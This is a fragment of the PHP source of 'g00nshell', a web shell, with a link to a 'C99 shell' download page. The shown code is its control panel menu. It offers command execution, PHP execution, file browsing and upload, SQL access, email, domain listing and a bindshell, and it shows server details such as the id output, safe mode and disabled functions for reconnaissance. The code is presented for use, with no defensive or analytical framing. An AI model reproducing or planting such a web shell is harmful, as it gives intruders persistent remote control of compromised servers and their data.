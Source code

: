   input,textarea,select { color:#FFFFFF; background-color:#2F2F2F; border:1px solid #4F4F4F; font-family:Verdana; font-size:11px; }\n
  textarea { font-family:Courier; font-size:11px; }\n
  a { color:#6F6F6F; text-decoration:none; font-family:Verdana; font-size:11px; }\n
  a:hover { color:#7F7F7F; }\n
  td,th { font-size:12px; vertical-align:middle; }\n
  th { font-size:13px; }\n
  table { empty-cells:show;}\n
  .inf { color:#7F7F7F; }\n
  &lt;/style&gt;\n
  &lt;/head&gt;\n");
}
function main(){ // Main/menu function
  global $self, $servip, $servport, $uname, $soft, $banner, $curuser, $version;
  style();
  $act = array('cmd'=&gt;'Command Execute','files'=&gt;'File View','phpinfo'=&gt;'PHP info', 'phpexec'=&gt;'PHP Execute',
  'tools'=&gt;'Tools','sqllogin'=&gt;'SQL','email'=&gt;'Email','upload'=&gt;'Get Files','lookup'=&gt;'List Domains','bshell'=&gt;'Bindshell','kill'=&gt;'Kill Shell');
  $capt = array_flip($act);
  echo("&lt;form method='GET' name='shell'&gt;");
  echo("&lt;b&gt;Host:&lt;/b&gt; &lt;span class='inf'&gt;" . $servip . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;Server software:&lt;/b&gt; &lt;span class='inf'&gt;" . $soft . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;Uname:&lt;/b&gt; &lt;span class='inf'&gt;" . $uname . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;Shell Directory:&lt;/b&gt; &lt;span class='inf'&gt;" . getcwd() . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;div style='display:none' id='info'&gt;");
  echo("&lt;b&gt;Current User:&lt;/b&gt; &lt;span class='inf'&gt;" . $curuser . "&lt;/span&gt;&lt;br&gt;");
  echo("&lt;b&gt;ID:&lt;/b&gt; &lt;span class='inf'&gt;" . @exec('id') . "&lt;/span&gt;&lt;br&gt;");
  if(@ini_get('safe_mode') != ""){echo("&lt;b&gt;Safemode:&lt;/b&gt; &lt;font color='red'&gt;ON&lt;/font&gt;");}
  else{echo("&lt;b&gt;Safemode:&lt;/b&gt; &lt;font color='green'&gt;OFF&lt;/font&gt;");}
  echo("\n&lt;br&gt;\n");
  if(@ini_get('open_basedir') != ""){echo("&lt;b&gt;Open Base Dir:&lt;/b&gt; &lt;font color='red'&gt;ON&lt;/font&gt; [ &lt;span class='inf'&gt;" . ini_get('open_basedir') . "&lt;/span&gt; ]");}
  else{echo("&lt;b&gt;Open Base Dir:&lt;/b&gt; &lt;font color='green'&gt;OFF&lt;/font&gt;");}
  echo("\n&lt;br&gt;\n");
  if(@ini_get('disable_functions') != ""){echo("&lt;b&gt;Disabled functions:&lt;/b&gt; " . @ini_get('disable_functions'));}
  else{echo("&lt;b&gt;Disabled functions:&lt;/b&gt; None");}
  echo("\n&lt;br&gt;\n");
  if(@function_exists(mysql_connect)){echo("&lt;b&gt;MySQL:&lt;/b&gt; &lt;font color='green'&gt;ON&lt;/font&gt;");}
  else{echo("&lt;b&gt;MySQL:&lt;/b&gt; &lt;font color='red'&gt;OFF&lt;/font&gt;");}
  echo("&lt;/div&gt;");
  echo("[ &lt;a href='#hax' onClick=\"document.getElementById('info').style.display = 'block';\"&gt;More&lt;/a&gt; ] ");
  echo("[ &lt;a href='#hax' onClick=\"document.getElementById('info').style.display = 'none';\"&gt;Less&lt;/a&gt; ]");
  echo("&lt;center&gt;");
  echo("&lt;h3 align='center'&gt;Links&lt;/h3&gt;");
  if($_SERVER['QUERY_STRING']){foreach($act as $link){echo("[ &lt;a href='?" . $_SERVER['QUERY_STRING'] . "&act=" . $capt[$link] . "' target='frm'&gt;" . $link . "&lt;/a&gt; ] ");}}
  else{foreach($act as $link){echo("[ &lt;a href='?act=" . $capt[$link] . "' target='frm'&gt;" . $link . "&lt;/a&gt; ] ");}}
  echo("&lt;/center&gt;");
  echo("&lt;hr&gt;");
  echo("&lt;br&gt;&lt;iframe name='frm' style='width:100%; height:65%; border:0;' src='?act=files'&gt;&lt;/iframe&gt;");
  echo("&lt;pre style='text-align:center'&gt;:: g00nshell &lt;font color='red'&gt;v" . $version . "&lt;/font&gt; ::&lt;/pre&gt;");
  die();

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"